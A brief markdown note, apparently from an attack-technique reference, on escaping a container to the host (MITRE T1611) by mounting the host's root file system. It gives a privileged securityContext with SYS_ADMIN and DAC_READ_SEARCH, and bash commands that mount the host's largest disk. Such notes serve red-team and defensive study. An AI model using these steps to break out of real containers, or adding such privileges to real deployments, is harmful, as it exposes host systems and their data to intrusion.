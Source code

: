 ## Escape to Host Technique
https://attack.mitre.org/techniques/T1611/

### Mount Root File System

Container should have privileges to mount root file system:

``` yaml
securityContext:
    privileged: true
    capabilities:
    add:
        - SYS_ADMIN
        - DAC_READ_SEARCH
```

Example:

``` bash
$ device=$(lsblk -o NAME,SIZE -d | sort -k2 -h | tail -n 1 | awk '{print $1}') 
$ mount /dev/$device /mnt/
``` 